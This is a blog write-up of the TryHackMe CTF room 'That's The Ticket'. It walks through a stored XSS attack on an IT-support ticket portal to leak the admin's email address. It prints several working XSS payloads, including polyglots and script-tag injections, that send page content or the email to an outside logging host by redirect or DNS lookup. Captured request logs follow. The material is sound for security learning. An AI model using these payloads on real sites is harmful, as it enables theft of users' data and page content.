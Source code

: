 ```yaml
---
layout: post
title:  "THM: That's The Ticket"
date:   2021-06-15 20:00:00 +1000
category: hacking
---
```


## THM: That's The Ticket
This is [That's The Ticket](https://tryhackme.com/room/thatstheticket) from THM. It's Medium rated and says: 

>IT Support is going to have a really bad day today, but don't think they're stupid! They have really strict firewalls!  
Using the IT support portal try and make your way into the admin account.  
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!

Based on this, I was guessing this might have been XSS. Guess who doesn't know anything about XSS? This guy. Let's go.

## Ports
SSH, and HTTP only.

## HTTP 
Our first task is to find the email address of IT Support. We can register an account, and then create support tickets. Now when I said I don't know shit about XSS, I wasn't joking. It's obviously not easy to do in CTF-type challenges when you're working with Vulnhub boxes or on THM; they are usually single machine and single user type things. 

Anyway I had once signed up for a course with the [XSS Rat](https://thexssrat.podia.com/courses/uncle-rat-s-xss-guide/) about XSS so I watched the first few videos, learned not quite enough to be dangerous and got started. 

Using a [polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot) that I borrowed, I could get an XSS payload to trigger on the ticket. Then, I tried getting it to send me the email address with this payload:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=document.location='http://ea4701396c8c6c7498f319f14dcd1179.log.tryhackme.tech/'+document.getElementById("email").innerHTML;//
```

This would get an HTTP request to the logging tool on 10.10.10.100, but I'd only get my own email address, like so:

{% highlight html %}
We received the following HTTP Request:
----------------------------------------------------------------------------------

GET /me@mine.com HTTP/1.1
Host: d2f2054f87f8c58e2d6a2c6e96a2dbcf.log.tryhackme.tech
Upgrade-Insecure-Requests: 1
Referer: http://10.10.207.176/26
Connection: close
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0


----------------------------------------------------------------------------------
Request received @ 15 Jun 2021 06:52:34 UTC from IP 10.9.10.123
{% endhighlight %}

Next, I tried .... well, different things. I eventually landed on a payload like this:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=document.location='http://0cd9893755d681c4eaf2e981188ea1bf.log.tryhackme.tech/'+btoa(unescape(encodeURIComponent(document.documentElement.innerHTML)));//
```

Which would essentially exfil the entire page contents as base64, but it *still* didn't contain the admin's email address. 

Eventually I quit and checked a writeup, because I genuinely didn't know what to to. Specifically I looked [here](https://dasith.works/thats-the-ticket-thm/), not that it probably matters much. I got two things from here: one, we needed to escape a 'textarea', and two, a useful payload. Now as it happens my polyglot was already escaping the textarea but the payload could be much simpler without all the LeEt stuff. The payload:

{% highlight html %}
</textarea> 
<script> 
var email = document.getElementById('email').innerHTML
var emailreplaced1 = email.replace('@','X')
var emailreplaced2 = emailreplaced1.replace('.','Y')
fetch('http://'+emailreplaced2+'.f6dd97cbbca6b33d8f7e673cd79a74e7.log.tryhackme.tech')
</script>
{% endhighlight %}

So why does this work, whereas mine didn't? Because the DNS lookup to the monitor is done by the admin account, but the GET request isn't. We get a result like this:

{% highlight html %}
We received a DNS lookup with type: A for the domain:
adminaccountxitsupportythm.d2f2054f87f8c58e2d6a2c6e96a2dbcf.log.tryhackme.tech

The Lookup was requested @ 15 Jun 2021 07:05:51 UTC from IP 34.242.153.160
{% endhighlight %}

And it looks like this since old mate replaced @ with 'X' and . with Y, so the answer is adminaccount@itsupport.thm 

Now I knew this, I thought the payload could be simplified somewhat. Here's my (slightly) optimised version:

```
</textarea><script>fetch('http://'+(document.getElementById('email').innerText.replace("@", "_AT_"))+'.523c35ab11c776d732b5ce558008fcf3.log.tryhackme.tech')</script>
```

No doubt there are better ones. This works though:

{% highlight html %}
We received a DNS lookup with type: A for the domain:
adminaccount_at_itsupport.thm.523c35ab11c776d732b5ce558008fcf3.log.tryhackme.tech

The Lookup was requested @ 15 Jun 2021 07:18:41 UTC from IP 34.245.205.131
{% endhighlight %}

Once you've got that you just have to bruteforce the admin login; the password is trivial and I used Burp Turbo Intruder and then you just read a flag from a ticket. But I still found this really quite interesting and I definitely learned a few things so cheers adamtlangley.
